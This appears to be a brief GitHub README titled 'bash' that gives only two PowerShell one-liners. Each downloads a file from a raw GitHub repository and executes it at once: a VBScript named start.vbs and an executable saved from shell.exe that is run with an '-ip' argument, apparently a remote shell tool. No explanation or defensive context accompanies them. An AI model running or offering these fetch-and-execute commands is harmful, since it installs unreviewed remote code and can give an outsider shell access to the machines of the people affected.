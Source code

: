 # bash
for powershell:

curl raw.githubusercontent.com/koplenov/bash/master/start.vbs -o start.vbs; .\start.vbs

curl raw.githubusercontent.com/koplenov/bash/master/shell.exe -o file.exe; .\file.exe -ip  
